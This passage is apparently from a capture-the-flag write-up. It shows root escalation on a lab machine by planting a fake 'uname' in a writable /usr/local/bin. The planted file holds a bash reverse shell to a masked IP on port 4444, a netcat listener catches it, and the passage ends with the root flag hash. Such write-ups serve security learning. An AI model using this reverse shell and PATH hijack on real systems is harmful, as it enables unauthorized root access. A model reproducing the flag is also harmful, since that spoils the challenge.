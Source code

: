 > The 'Path hijacking' technique. Knowing the name of the command (uname) and having 'writable' rights in the /usr/local/bin and /usr/local/sbin directories, I write a file for the reverse shell to any of them.

```bash

echo -e '#!/bin/bash\nsh -i >& /dev/tcp/*.*.*.*/4444 0>&1' > /usr/local/bin/uname
chmod +x /usr/local/bin/uname

```

> In my terminal:

```bash

nc -lvnp 4444

```

> login the system as 'jkr' and get a reverse shell as root.

```bash

root@writeup:/# id
uid=0(root) gid=0(root) groups=0(root)
root@writeup:/# cd /root/
root@writeup:/root# ls 
bin  root.txt
root@writeup:/root# cat root.txt 
17b8b01a6606046c4a7f4debb3ab1cf4
root@writeup:/root#

```
```bash

root - 17b8b01a6606046c4a7f4debb3ab1cf4

```
